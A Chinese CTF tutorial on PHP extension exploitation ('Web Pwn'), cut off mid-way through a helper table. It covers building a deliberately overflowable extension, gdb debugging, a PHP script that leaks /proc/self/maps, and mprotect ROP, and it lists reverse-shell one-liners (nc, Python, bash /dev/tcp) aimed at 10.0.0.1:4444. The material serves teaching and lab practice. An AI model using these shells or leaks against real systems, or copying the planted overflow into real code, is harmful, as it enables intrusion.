
# 参考资料
[https://xz.aliyun.com/t/15166?time__1311=GqjxuQi%3DDQ%3D0yRx%2BxCqiKwmmm93Y5Lox#toc-1](https://xz.aliyun.com/t/15166?time__1311=GqjxuQi=DQ=0yRx%2bxCqiKwmmm93Y5Lox#toc-1)

本文首发于奇安信攻防社区：[https://forum.butian.net/share/3716](https://forum.butian.net/share/3716)
# 简介

目前 Web Pwn 大多针对 PHP。分析重点是 PHP 加载的外部扩展，因为漏洞通常位于 .so 扩展库中。PHP 通过加载扩展库来调用其内部函数，因此与常规 PWN 题最大的区别在于无法直接获得交互式 shell。通常需要使用 popen 或 exec 函数族执行 bash 命令来反弹 shell，直接执行 one_gadget 或 system 并不可行。

# 生命周期

1. 扩展模块的生命周期：

a) 模块初始化（MINIT）：PHP 解释器启动时会加载相关模块，并调用各模块的 MINIT 方法；该方法只调用一次。
示例：假设有一个数据库连接池扩展。
```c
PHP_MINIT_FUNCTION(db_pool)
{
    // 初始化连接池
    initialize_connection_pool();
    return SUCCESS;
}
```
此函数只在 PHP 启动时调用一次，用于初始化连接池。

b) 请求初始化（RINIT）：每次请求到达时触发。SAPI 层将控制权交给 PHP 层；PHP 初始化执行本次请求脚本所需的环境变量、函数列表等，并调用所有模块的 RINIT 函数。
示例：一个会话管理扩展。
```c
PHP_RINIT_FUNCTION(session_manager)
{
    // 为每个请求创建新的会话
    create_new_session();
    return SUCCESS;
}
```
此函数在每次 HTTP 请求开始时调用，为每个请求创建新会话。

c) 请求关闭（RSHUTDOWN）：请求结束时，PHP 自动运行清理流程，依次调用各模块的 RSHUTDOWN 方法，清理程序运行期间使用的符号表。
示例：用于清理请求专属资源的扩展。
```c
PHP_RSHUTDOWN_FUNCTION(resource_cleaner)
{
    // 清理请求期间分配的资源
    free_request_resources();
    return SUCCESS;
}
```
每次请求结束时调用，用于清理该请求使用的资源。

d) 模块关闭（MSHUTDOWN）：服务器关闭时，PHP 调用各模块的 MSHUTDOWN 方法来释放内存。
示例：关闭数据库连接池。
```c
PHP_MSHUTDOWN_FUNCTION(db_pool)
{
    // 关闭连接池
    shutdown_connection_pool();
    return SUCCESS;
}
```
PHP 终止时调用，用于清理模块级资源。

2. PHP 运行模式：

a) CLI 运行模式（单进程 SAPI）：
示例：
```bash
php script.php
```
该命令启动 PHP 解释器，执行 script.php 后退出。整个过程只有一次 MINIT 和一次 MSHUTDOWN，RINIT 和 RSHUTDOWN 也会因脚本执行而各调用一次。

b) CGI 运行模式（通常为多进程 SAPI）：
示例：Apache 配合 mod_cgi。
HTTP 请求到达时，Apache 为每个请求 fork 一个新的 PHP 进程。
```
[Apache] <- HTTP Request
    |
    ├── [PHP Process 1] (MINIT -> RINIT -> Execute -> RSHUTDOWN -> MSHUTDOWN)
    |
    ├── [PHP Process 2] (MINIT -> RINIT -> Execute -> RSHUTDOWN -> MSHUTDOWN)
    |
    └── [PHP Process 3] (MINIT -> RINIT -> Execute -> RSHUTDOWN -> MSHUTDOWN)
```
每个进程处理完一个请求后就会终止，因此每个请求都会经历完整的模块生命周期。
> fork 出来的进程通常与原进程具有完全相同的内存布局。因此，如果能获得 /proc/{pid}/maps 文件，就可以获取该进程的内存布局，形成内存泄露。在 De1CTF 的那道 WEBPWN 题中，这就是最初的突破口：利用存在漏洞的 include 函数读取 /proc/self/maps，得到所有基址，从而绕过 PIE 保护。

```bash
llk@ubuntu:~/Desktop/tools/php-src/ext/hello/modules$  cat /proc/90065/maps
555555554000-555555627000 r--p 00000000 08:05 286222                     /usr/bin/php7.4
555555627000-555555891000 r-xp 000d3000 08:05 286222                     /usr/bin/php7.4
555555891000-555555957000 r--p 0033d000 08:05 286222                     /usr/bin/php7.4
555555958000-5555559e3000 r--p 00403000 08:05 286222                     /usr/bin/php7.4
5555559e3000-5555559e5000 rw-p 0048e000 08:05 286222                     /usr/bin/php7.4
5555559e5000-555555ba0000 rw-p 00000000 00:00 0                          [heap]
7ffff3f22000-7ffff3fa3000 rw-p 00000000 00:00 0 
7ffff3fcc000-7ffff3fd0000 r--p 00000000 08:05 280238                     /usr/lib/x86_64-linux-gnu/libgpg-error.so.0.28.0
7ffff3fd0000-7ffff3fe3000 r-xp 00004000 08:05 280238                     /usr/lib/x86_64-linux-gnu/libgpg-error.so.0.28.0
7ffff3fe3000-7ffff3fed000 r--p 00017000 08:05 280238                     /usr/lib/x86_64-linux-gnu/libgpg-error.so.0.28.0
7ffff3fed000-7ffff3fee000 r--p 00020000 08:05 280238                     /usr/lib/x86_64-linux-gnu/libgpg-error.so.0.28.0
7ffff3fee000-7ffff3fef000 rw-p 00021000 08:05 280238                     /usr/lib/x86_64-linux-gnu/libgpg-error.so.0.28.0
7ffff3fef000-7ffff3ffb000 r--p 00000000 08:05 280162                     /usr/lib/x86_64-linux-gnu/libgcrypt.so.20.2.5
7ffff3ffb000-7ffff40c9000 r-xp 0000c000 08:05 280162                     /usr/lib/x86_64-linux-gnu/libgcrypt.so.20.2.5
7ffff40c9000-7ffff4106000 r--p 000da000 08:05 280162                     /usr/lib/x86_64-linux-gnu/libgcrypt.so.20.2.5
7ffff4106000-7ffff4108000 r--p 00116000 08:05 280162                     /usr/lib/x86_64-linux-gnu/libgcrypt.so.20.2.5
7ffff4108000-7ffff410d000 rw-p 00118000 08:05 280162                     /usr/lib/x86_64-linux-gnu/libgcrypt.so.20.2.5
7ffff410d000-7ffff4111000 r--p 00000000 08:05 280080                     /usr/lib/x86_64-linux-gnu/libexslt.so.0.8.20
7ffff4111000-7ffff411f000 r-xp 00004000 08:05 280080                     /usr/lib/x86_64-linux-gnu/libexslt.so.0.8.20
7ffff411f000-7ffff4123000 r--p 00012000 08:05 280080                     /usr/lib/x86_64-linux-gnu/libexslt.so.0.8.20
7ffff4123000-7ffff4124000 r--p 00015000 08:05 280080                     /usr/lib/x86_64-linux-gnu/libexslt.so.0.8.20

```

c) FastCGI 运行模式（多进程 SAPI，但进程可以复用）：
示例：Nginx 配合 PHP-FPM。
```
[Nginx] <- HTTP Requests
    |
    ├── [PHP-FPM Process 1] (MINIT -> [RINIT -> Execute -> RSHUTDOWN] x N -> MSHUTDOWN)
    |
    └── [PHP-FPM Process 2] (MINIT -> [RINIT -> Execute -> RSHUTDOWN] x N -> MSHUTDOWN)
```
PHP-FPM 进程处理多个请求后才会退出，因此 MINIT 和 MSHUTDOWN 仅在进程启动和终止时各调用一次，而 RINIT 和 RSHUTDOWN 会在每次请求时调用。


# PHP 扩展模块
[小猪教你开发 PHP 扩展](https://blog.yanjingang.com/?p=3070)
在 Linux 环境中，PHP 扩展通常是 .so 文件。扩展模块的存放路径可以按下图方式查看：

## 搭建 PHP 环境
```bash
sudo apt install php php-dev # 安装php，以及php开发包头
php -v # 查看php版本 直到当前对应的版本是7.4.3
```
根据版本下载对应源码。
[https://github.com/php/php-src/tree/PHP-7.4.3](https://github.com/php/php-src/tree/PHP-7.4.3)


```bash
git clone https://github.com/php/php-src.git
cd  php-src
git checkout PHP-7.4.3
git fetch
```


源码目录结构：

```c
php-src
  |____build    --和编译有关的目录，里面包括wk，awk和sh脚本用于编译处理，其中m4文件是linux下编译程序自动生成的文件，可以使用buildconf命令操作具体的配置文件。
  |____ext      --扩展库代码，例如Mysql，gd，zlib，xml，iconv 等我们熟悉的扩展库，ext_skel是linux下扩展生成脚本，windows下使用ext_skel_win32.php。
  |____main     --主目录，包含PHP的主要宏定义文件，php.h包含绝大部分PHP宏及PHP API定义。
  |____netware  --网络目录，只有sendmail_nw.h和start.c，分别定义SOCK通信所需要的头文件和具体实现。
  |____pear     --扩展包目录，PHP Extension and Application Repository。
  |____sapi     --各种服务器的接口调用，如Apache，IIS等。
  |____scripts  --linux下的脚本目录。
  |____tests    --测试脚本目录，主要是phpt脚本，由--TEST--，--POST--，--FILE--，--EXPECT--组成，需要初始化可添加--INI--部分。
  |____TSRM     --线程安全资源管理器，Thread Safe Resource Manager保证在单线程和多线程模型下的线程安全和代码一致性。
  |____win32    --Windows下编译PHP 有关的脚本。
  |____Zend     --包含Zend引擎的所有文件，包括PHP的生命周期，内存管理，变量定义和赋值以及函数宏定义等等。
```
## 初始化扩展模块
```bash
cd ext
php ext_skel.php --ext extend_name 在当前目录生成一个extend_name 的文件夹
```



```bash
cd hello
ls
config.m4  config.w32  hello.c  php_hello.h  tests
```

1. config.m4
   - 用途：类 Unix 系统的配置脚本。
   - 作用：定义扩展的构建选项，包括依赖、编译标志等。
   - 运行 ./configure 时使用。

2. config.w32
   - 用途：Windows 系统的配置脚本。
   - 作用：与 config.m4 类似，但用于 Windows 环境。
   - 在 Windows 上编译扩展时使用。

3. hello.c
   - 用途：扩展的主源码文件。
   - 作用：
     - 包含扩展核心功能的实现。
     - 定义 PHP 函数、类、常量等。
     - 包含模块初始化和关闭函数。

4. php_hello.h
   - 用途：扩展的头文件。
   - 作用：
     - 声明 hello.c 中定义的函数。
     - 定义扩展使用的常量和宏。
     - 可能包含其他必要的结构体定义。

5. tests/ 目录
   - 用途：存放扩展的测试文件。
   - 作用：
     - 包含用于测试扩展功能的 .phpt 文件。
     - 帮助确保扩展在不同环境中正常工作。
     - 可通过 `make test` 运行这些测试。


## 编写扩展模块
编写 PHP 扩展以 Zend API 和一组宏为基础。因此，在编写核心代码前，需要先了解 PHP 扩展的结构。在 C 语言层面，PHP 扩展实际上就是一个 zend_module_entry 结构体。

其类型 zend_module_entry 的定义位于 PHP 源码的 "Zend/zend_modules.h" 文件中。下面的代码就是 zend_module_entry 的定义。

```c
typedef struct _zend_module_entry zend_module_entry;
struct _zend_module_entry {
  unsigned short size;
  unsigned int zend_api;
  unsigned char zend_debug;
  unsigned char zts;
  const struct _zend_ini_entry *ini_entry;
  const struct _zend_module_dep *deps;
  const char *name;        # PHP Extension的名字
  const struct _zend_function_entry *functions;  # 存放我们在此扩展中定义的函数的引用
  int (*module_startup_func)(INIT_FUNC_ARGS);  # 函数指针，扩展模块加载时被调用
  int (*module_shutdown_func)(SHUTDOWN_FUNC_ARGS); # 函数指针，扩展模块卸载时时被调用
  int (*request_startup_func)(INIT_FUNC_ARGS); # 函数指针，每个请求开始时时被调用
  int (*request_shutdown_func)(SHUTDOWN_FUNC_ARGS); # 函数指针，每个请求结束时时被调用
  void (*info_func)(ZEND_MODULE_INFO_FUNC_ARGS);  # 函数指针，这个指针指向的函数会在执行phpinfo()时被调用，用于显示自定义模块信息。
  const char *version;  # 模块的版本
  size_t globals_size;
  #ifdef ZTS
  ts_rsrc_id* globals_id_ptr;
  #else
  void* globals_ptr;
  #endif
  void (*globals_ctor)(void *global TSRMLS_DC);
  void (*globals_dtor)(void *global TSRMLS_DC);
  int (*post_deactivate_func)(void);
  int module_started;
  unsigned char type;
  void *handle;
  int module_number;
  char *build_id;
};
```
接下来看看自动生成的 `hello_module_entry`。

```c
zend_module_entry hello_module_entry = {
	STANDARD_MODULE_HEADER,
	"hello",					/* Extension name */
	hello_functions,			/* zend_function_entry */
	NULL,							/* PHP_MINIT - Module initialization */
	NULL,							/* PHP_MSHUTDOWN - Module shutdown */
	PHP_RINIT(hello),			/* PHP_RINIT - Request initialization */
	NULL,							/* PHP_RSHUTDOWN - Request shutdown */
	PHP_MINFO(hello),			/* PHP_MINFO - Module info */
	PHP_HELLO_VERSION,		/* Version */
	STANDARD_MODULE_PROPERTIES
};
```
宏 "STANDARD_MODULE_HEADER" 生成前 6 个字段，"STANDARD_MODULE_PROPERTIES" 生成 "version" 之后的字段，中间则是运行各阶段调用的函数。

```c
PHP_RINIT(hello)对应到
PHP_RINIT_FUNCTION(hello)
{
……
}
PHP_MINFO(hello)对应到
PHP_MINFO_FUNCTION(hello)
{
……
}

```
使用 PHP_FUNCTION 宏修饰的函数可以直接在 PHP 中调用。

```c
PHP_FUNCTION(easy_phppwn)
{
	char *arg = NULL;
    size_t arg_len, len;
    char buf[100];
    if(zend_parse_parameters(ZEND_NUM_ARGS(), "s", &arg, &arg_len) == FAILURE){
        return;
    }
    memcpy(buf, arg, arg_len);
    php_printf("The baby phppwn.\n");
    return SUCCESS;
}
```
> 参数解析通过 zend_parse_parameters 函数实现。它从函数使用者的输入栈中读取数据，将其转换为相应的函数参数，填入变量，供后续核心功能代码使用。zend_parse_parameters 的第一个参数是用户传入的参数数量，可由宏 "ZEND_NUM_ARGS()" 生成；第二个参数是字符串，每个字母代表一种变量类型。这里只有一个字符串类型变量，因此第二个参数为 "s"。最后，每个参数还需要一些必要的局部变量指针来存放数据。下表给出了不同变量类型对应的字母及所需的局部变量指针。

```bash
对于一个参数，可以使用一个字符序列表示该参数的解析规则。在后面的变长参数中，需要顺序传入参数保存值的引用值。

PHP使用一个字母表示参数应该被解析为什么类型。具体的对应关系如下：

a  - array (zval*)
A  - array or object (zval*)
b  - boolean (zend_bool)
C  - class (zend_class_entry*)
d  - double (double)
f  - function or array containing php method call info (returned as
     zend_fcall_info and zend_fcall_info_cache)
h  - array (returned as HashTable*)
H  - array or HASH_OF(object) (returned as HashTable*)
l  - long (zend_long)
n  - long or double (zval*)
o  - object of any type (zval*)
O  - object of specific type given by class entry (zval*, zend_class_entry)
p  - valid path (string without null bytes in the middle) and its length (char*, size_t)
P  - valid path (string without null bytes in the middle) as zend_string (zend_string*)
r  - resource (zval*)
s  - string (with possible null bytes) and its length (char*, size_t)
S  - string (with possible null bytes) as zend_string (zend_string*)
z  - the actual zval (zval*)
*  - variable arguments list (0 or more)
+  - variable arguments list (1 or more)

还可以使用下面3个符号：

|  - 放在上面字母的前面表示参数的解析规则为可选参数，其应该被初始化为默认值，以防止PHP代码没有传入该参数。
/  - 对其所跟的参数调用 SEPARATE_ZVAL()。 
!  - 所跟的参数可以为指定类型或 NULL。如果传入 NULL 且输出类型为指针，则输出的 C 语言指针为 NULL。对于类型 'b'、'l'、'd'，一个额外的 zend_bool* 类型需要在对应的 bool*、zend_long*、double* 后被传入。如果传入 PHP NULL 则一个非0值将会被写到 zend_bool 中。

```

最后还需要在 `zend_function_entry` 中注册。

```c
static const zend_function_entry hello_functions[] = {
	PHP_FE(easy_phppwn,		NULL)
	PHP_FE_END
};
```
然后将其放到 ` const struct _zend_function_entry *functions;  # 存放我们在此扩展中定义的函数的引用` 所在的位置，也就是 `hello_module_entry` 中的对应字段。

## 编译扩展模块
```bash
phpize
./configure --with-php-config=/usr/bin/php-config

```
然后在生成的 Makefile 中，在下图位置设置编译参数：关闭栈保护，并去掉 -O2 优化，否则会加入 FORTIFY 保护，使 memcpy 函数增加长度检查，变成 __memcpy_chk 函数。



设置好后，直接使用 make 命令编译。编译完成后，当前目录会生成 ./modules 目录，其中包含所需的 .so 扩展文件。将其复制到 PHP 扩展目录，然后配置 php.ini 启用该扩展。


```bash
/etc/php/7.4/apache2/php.ini
/etc/php/7.4/cli/php.ini # 通常调试时使用CLI模式，所以只配置了该目录下的php.ini文件
```

```bash
sudo cp hello.so /usr/lib/php/20190902/ # 将扩展库赋值到php搜索扩展库的路径中
```
注意，题目在 php.ini 中禁用了部分函数。


## 测试

```bash
<?php
phpinfo()
$a = "abcd";
easy_phppwn($a);
?>
```


# 安全检查

# 调试
## 宿主机
导入 IDA。

```c
void __cdecl zif_easy_phppwn(zend_execute_data *execute_data, zval *return_value)
{
  char buf[100]; // [rsp+10h] [rbp-80h] BYREF
  size_t n; // [rsp+80h] [rbp-10h] BYREF
  char *arg; // [rsp+88h] [rbp-8h] BYREF

  arg = 0LL;
  if ( (unsigned int)zend_parse_parameters(execute_data->This.u2.next, "s", &arg, &n) != -1 )
  {
    memcpy(buf, arg, n);
    php_printf("The baby phppwn.\n");
  }
}
```
存在栈溢出，先泄露 libc 地址，再执行 ROP。
```bash
gdb php
r
vmmap
……
    0x7ffff7fc4000     0x7ffff7fc5000 r--p     1000      0 /usr/lib/php/20190902/hello.so
    0x7ffff7fc5000     0x7ffff7fc6000 r-xp     1000   1000 /usr/lib/php/20190902/hello.so
    0x7ffff7fc6000     0x7ffff7fc7000 r--p     1000   2000 /usr/lib/php/20190902/hello.so
    0x7ffff7fc7000     0x7ffff7fc8000 r--p     1000   2000 /usr/lib/php/20190902/hello.so
    0x7ffff7fc8000     0x7ffff7fc9000 rw-p     1000   3000 /usr/lib/php/20190902/hello.so
……
```
可以看到，扩展模块已经加载。


设置断点时，先 run，再按 ctrl+c 中断，然后设置断点（因为扩展库在 run 之后才会加载），接着设置参数并重新运行。由于是自行使用 make 编译的，且包含调试信息，因此可以进行源码级调试。

```bash
pwndbg> run
pwndbg> b*zif_easy_phppwn
Breakpoint 1 at 0x7ffff7fc51b9: file /home/llk/Desktop/tools/php-src/ext/hello/hello.c, line 12.
pwndbg> set args ./pwn.php

```

```bash
 ► 0x7ffff7fc51b9 <zif_easy_phppwn>       endbr64 
   0x7ffff7fc51bd <zif_easy_phppwn+4>     push   rbp
   0x7ffff7fc51be <zif_easy_phppwn+5>     mov    rbp, rsp                        RBP => 0x7fffffffa430 ◂— 0
   0x7ffff7fc51c1 <zif_easy_phppwn+8>     sub    rsp, 0x90                       RSP => 0x7fffffffa3a0 (0x7fffffffa430 - 0x90)
   0x7ffff7fc51c8 <zif_easy_phppwn+15>    mov    qword ptr [rbp - 0x88], rdi     [0x7fffffffa3a8] => 0x7ffff5413090 ◂— 0x6461656820666f20 (' of head')
   0x7ffff7fc51cf <zif_easy_phppwn+22>    mov    qword ptr [rbp - 0x90], rsi     [0x7fffffffa3a0] => 0x7fffffffa490 —▸ 0x7fffffffca40 —▸ 0x555555a33170 ◂— ...
   0x7ffff7fc51d6 <zif_easy_phppwn+29>    mov    qword ptr [rbp - 8], 0          [0x7fffffffa428] => 0
   0x7ffff7fc51de <zif_easy_phppwn+37>    mov    rax, qword ptr [rbp - 0x88]     RAX, [0x7fffffffa3a8] => 0x7ffff5413090 ◂— 0x6461656820666f20 (' of head')
   0x7ffff7fc51e5 <zif_easy_phppwn+44>    mov    eax, dword ptr [rax + 0x2c]     EAX, [0x7ffff54130bc] => 1
   0x7ffff7fc51e8 <zif_easy_phppwn+47>    mov    edi, eax                        EDI => 1
   0x7ffff7fc51ea <zif_easy_phppwn+49>    lea    rdx, [rbp - 0x10]               RDX => 0x7fffffffa420 ◂— 1
─────────────────────────────────────────────────────────[ SOURCE (CODE) ]─────────────────────────────────────────────────────────
In file: /home/llk/Desktop/tools/php-src/ext/hello/hello.c:12
    7 #include "php.h"
    8 #include "ext/standard/info.h"
    9 #include "php_hello.h"
   10 
   11 PHP_FUNCTION(easy_phppwn)
 ► 12 {
   13         char *arg = NULL;
   14     size_t arg_len, len;
   15     char buf[100];
   16     if(zend_parse_parameters(ZEND_NUM_ARGS(), "s", &arg, &arg_len) == FAILURE){
   17         return;

```
如果直接在 libc 函数上设置的断点无法命中，可以先断在 main，再设置断点。


## docker
可以直接运行 exp.php 进行调试，但要记得设置断点。

```c
gdbserver :1234 /usr/local/bin/php /var/www/html/exp.php
```

```bash
b _start  连接后先执行，然后会加载libc库
b* __libc_start_main+128 会调用一个函数去解析php
该函数然后call rax会进入另一个函数
```


在另一个函数内部，最终通过 `call qword ptr [rdx+0x10]` 加载库。

```bash
b*pie+0x247861  和php版本有关
```


此后才能在库内的函数上设置断点。

**或者**

在 docker 中安装 gdbserver 后运行：

```bash
gdbserver :1234 php -S 0:8080 exp.php
```
这样 gdbserver 会监听本地 1234 端口，PHP 则监听本地 8080 端口。访问 8080 端口相当于执行 php index.php。然后多次使用 n 命令，执行完第一条 call 指令后，PHP 运行所需的动态链接库（不包括 C 扩展）就全部加载了。进入 _start 后，执行流程进入 _libc_start_main；执行一条 call rax 指令后进入监听状态，同时可以看到 C 扩展的加载情况。
# 实用技巧
## 泄露 /proc/self/maps

```php
<?php
// 读取 /proc/self/maps 文件内容
$content = file_get_contents('/proc/self/maps');
echo $content ; //打印/proc/self/maps内容
// 函数用于解析基地址
function getBaseAddress($content, $pattern) {
    if (preg_match_all($pattern, $content, $matches)) {
        return $matches[1]; // 返回所有匹配的基地址
    }
    return null;
}

// 匹配 libc 的基地址
$libcPattern = '/^([0-9a-f]+)-[0-9a-f]+\\s+r--p\\s+.*?\\s+\\S*libc.*$/m';
$libcBaseAddresses = getBaseAddress($content, $libcPattern);

if ($libcBaseAddresses) {
    echo "libc base addresses:\n";
    foreach ($libcBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No libc base address found.\n";
}

// 匹配 stack 的基地址
$stackPattern = '/^([0-9a-f]+)-[0-9a-f]+\\s+rw-p\\s+.*?\\s+\\[stack\\]$/m';
$stackBaseAddresses = getBaseAddress($content, $stackPattern);

if ($stackBaseAddresses) {
    echo "stack base address:\n";
    foreach ($stackBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No stack base address found.\n";
}
?>
```



## 利用溢出调用 mprotect 修改栈权限
存在溢出时，可以通过 ROP 链调用 mprotect 函数，为栈赋予执行权限，再找到 jmp rsp，直接执行 shellcode。

## 反弹 shell

原理：
1. 攻击者在自己的机器上监听指定端口。
2. 在目标机器上执行命令，使其连接回攻击者的机器。
3. 连接建立后，将目标机器的 shell 重定向到该连接。

示例：

1. 使用 netcat（nc）的示例：

攻击者机器（IP：10.0.0.1）：
```
nc -lvp 4444
```
该命令在 4444 端口监听传入连接。

目标机器：
```
nc 10.0.0.1 4444 -e /bin/bash
```
该命令连接到攻击者机器，并执行 bash shell。

2. 使用 Python 的示例：

攻击者机器（IP：10.0.0.1）：
```
nc -lvp 4444
```

目标机器：
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

3. 使用 Bash 的示例：

攻击者机器（IP：10.0.0.1）：
```
nc -lvp 4444
```

目标机器：
```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

这些示例都会在目标机器上创建 shell，并将其输入输出重定向到攻击者机器。

# 常用 PHP

```php
//零字节
"\x00"
//等价于p64
pack('Q', $p_rdi_r)
//等价于'a'*0x80
str_repeat('a', 0x80);
//等价于command.ljust(0x60,"\x00")
str_pad($command, 0x60, "\x00")
//等价于p64
function p64(string $value):string{
    static $p64_table=[
        0=>"\x00",1=>"\x01",2=>"\x02",3=>"\x03",4=>"\x04",5=>"\x05",6=>"\x06",7=>"\x07",8=>"\x08",9=>"\x09",10=>"\x0a",
        11=>"\x0b",12=>"\x0c",13=>"\x0d",14=>"\x0e",15=>"\x0f",16=>"\x10",17=>"\x11",18=>"\x12",19=>"\x13",20=>"\x14",
        21=>"\x15",22=>"\x16",23=>"\x17",24=>"\x18",25=>"\x19",26=>"\x1a",27=>"\x1b",28=>"\x1c",29=>"\x1d",30=>"\x1e",
        31=>"\x1f",32=>"\x20",33=>"\x21",34=>"\x22",35=>"\x23",36=>"\x24",37=>"\x25",38=>"\x26",39=>"\x27",40=>"\x28",
        41=>"\x29",42=>"\x2a",43=>"\x2b",44=>"\x2c",45=>"\x2d",46=>"\x2e",47=>"\x2f",48=>"\x30",49=>"\x31",50=>"\x32",
        51=>"\x33",52=>"\x34",53=>"\x35",54=>"\x36",55=>"\x37",56=>"\x38",57=>"\x39",58=>"\x3a",59=>"\x3b",60=>"\x3c",
        61=>"\x3d",62=>"\x3e",63=>"\x3f",64=>"\x40",65=>"\x41",66=>"\x42",67=>"\x43",68=>"\x44",69=>"\x45",70=>"\x46",
        71=>"\x47",72=>"\x48",73=>"\x49",74=>"\x4a",75=>"\x4b",76=>"\x4c",77=>"\x4d",78=>"\x4e",79=>"\x4f",80=>"\x50",
        81=>"\x51",82=>"\x52",83=>"\x53",84=>"\x54",85=>"\x55",86=>"\x56",87=>"\x57",88=>"\x58",89=>"\x59",90=>"\x5a",
        91=>"\x5b",92=>"\x5c",93=>"\x5d",94=>"\x5e",95=>"\x5f",96=>"\x60",97=>"\x61",98=>"\x62",99=>"\x63",100=>"\x64",
        101=>"\x65",102=>"\x66",103=>"\x67",104=>"\x68",105=>"\x69",106=>"\x6a",107=>"\x6b",108=>"\x6c",109=>"\x6d",110=>"\x6e",
        111=>"\x6f",112=>"\x70",113=>"\x71",114=>"\x72",115=>"\x73",116=>"\x74",117=>"\x75",118=>"\x76",119=>"\x77",120=>"\x78",
        121=>"\x79",122=>"\x7a",123=>"\x7b",124=>"\x7c",125=>"\x7d",126=>"\x7e",127=>"\x7f",128=>"\x80",129=>"\x81",130=>"\x82",
        131=>"\x83",132=>"\x84",133=>"\x85",134=>"\x86",135=>"\x87",136=>"\x88",137=>"\x89",138=>"\x8a",139=>"\x8b",140=>"\x8c",
        141=>"\x8d",142=>"\x8e",143=>"\x8f",144=>"\x90",145=>"\x91",146=>"\x92",147=>"\x93",148=>"\x94",149=>"\x95",150=>"\x96",
        151=>"\x97",152=>"\x98",153=>"\x99",154=>"\x9a",155=>"\x9b",156=>"\x9c",157=>"\x9d",158=>"\x9e",159=>"\x9f",160=>"\xa0",
        161=>"\xa1",162=>"\xa2",163=>"\xa3",164=>"\xa4",165=>"\xa5",166=>"\xa6",167=>"\xa7",168=>"\xa8",169=>"\xa9",170=>"\xaa",
